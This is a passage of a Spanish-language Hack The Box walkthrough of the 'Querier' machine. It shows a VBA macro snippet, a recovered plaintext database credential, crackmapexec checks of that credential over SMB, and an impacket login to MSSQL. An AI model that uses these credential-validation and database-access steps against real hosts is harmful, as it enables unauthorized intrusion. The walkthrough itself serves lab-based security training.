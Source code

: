 ```c
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub

```

| Usuario   | Contraseña       |
| --------- | ---------------- |
| reporting | PcwTWTHRwryjc$c6 |


## Shell as mssql-svc

- Vamos a validar con `crackmapexec`.

```bash
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6'
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS
```

- Bueno si probamos haciéndolo a nivel de `WORKGROUP` o autenticación local si nos funciona.

```bash
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6' --local-auth
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\reporting:PcwTWTHRwryjc$c6
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6
```

- Bueno lo que vamos hacer es que como tenemos el puerto `1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM` abierto nos vamos a conectar al servicio.

```bash
➜  content impacket-mssqlclient WORKGROUP/reporting@10.129.67.247 -windows-auth
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)>
```
